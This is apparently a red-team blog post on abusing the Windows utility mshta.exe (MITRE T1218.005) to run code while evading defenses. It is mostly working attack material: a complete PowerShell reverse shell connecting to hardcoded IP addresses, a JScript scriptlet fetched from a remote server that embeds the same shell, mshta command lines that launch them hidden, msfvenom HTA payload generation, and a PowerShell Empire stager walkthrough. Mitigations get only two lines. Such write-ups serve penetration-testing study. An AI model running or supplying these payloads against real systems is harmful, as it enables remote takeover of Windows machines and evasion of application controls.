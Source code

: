 ```yaml
---
title: MSHTA
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, mshta]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.005`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSHTA
***Mshta.exe*** is a utility that executes Microsoft HTML Applications (HTA) files. Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. Mshta.exe can be used to bypass application control solutions that do not account for its potential use.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")

```
*invoking calculator*
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbacalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file [path/to/your/file.ps1]"":close")`

*Executing rev.ps1 to get a reverse shell*
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file rev.ps1"":close")

```
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbsrev.png)

***Getting reversh shell***
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/kalimshtarev.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'170.170.6.136\',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```

Command

> `mshta.exe javascript:a=(GetObject('script:[file_url]')).Exec();close();`

*executing mshta to get reverse shell*
```bash
mshta.exe javascript:a=(GetObject('script:http://170.170.6.136:90/exploit.sct')).Exec();close();

```
![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjswin.png)

*getting reversh shell*

![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjsmshta.png)

## Metasploit 

### Generating .hta Exploit With Msfvenom

> `msfvenom -p [payload] lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.43.1 lport=5000 -f hta-psh -o exploit.hta
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: exploit.hta
```

### Getting Command Shell 

*executing mshta in windows*

command

> `mshta [file_url]`

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metawin.png)

*setting metasploit listener, getting reverse shell*

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metasploitmshta.png)


## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/hta` to generate your payload, host your payload on your server, then execute the following command on target system `mshta [http://your_host/your_file.hta]`

### Setting Listener

![empirelistener](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirelistener.png)

### Using windows/hta Stager

![empirestager](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirestager.png)

### Getting Reverse Shell

![empireshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empireshell.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Block execution of mshta.exe.

# References

- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN)
- [https://atomicredteam.io/defense-evasion/T1218.005/](https://atomicredteam.io/defense-evasion/T1218.005/)
- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://attack.mitre.org/mitigations/M1038/](https://attack.mitre.org/mitigations/M1038/)
